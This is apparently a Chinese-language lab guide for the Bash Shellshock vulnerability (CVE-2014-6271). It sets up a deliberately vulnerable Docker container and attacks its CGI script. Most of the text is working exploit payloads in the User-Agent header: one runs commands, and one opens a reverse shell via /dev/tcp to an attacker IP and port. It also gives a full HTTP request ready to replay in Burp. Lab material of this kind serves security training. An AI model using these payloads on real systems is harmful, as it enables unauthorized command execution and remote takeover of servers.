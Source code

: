 ## Bash ShellShock CVE-2014-6271(破壳)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:b_bash_shellshock1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 medicean/vulapps:b_bash_shellshock1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址/cgi-bin/poc.cgi`，通过 Burp 截包，修改 HTTP 请求头中 UA 字段：

* 命令执行

 ```
User-Agent: () { :;};echo ; echo; echo $(/bin/ls -al /);
 ```

* 反弹 Shell 到 192.168.0.112 8888端口:

 ```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.112/8888 0>&1;
 ```


完整的请求报文如下(可直接复制到 Burp 下重放)：

```
GET /cgi-bin/poc.cgi HTTP/1.1
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: () { :;};echo ; echo; echo; echo $(/bin/ls -al / );
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6


```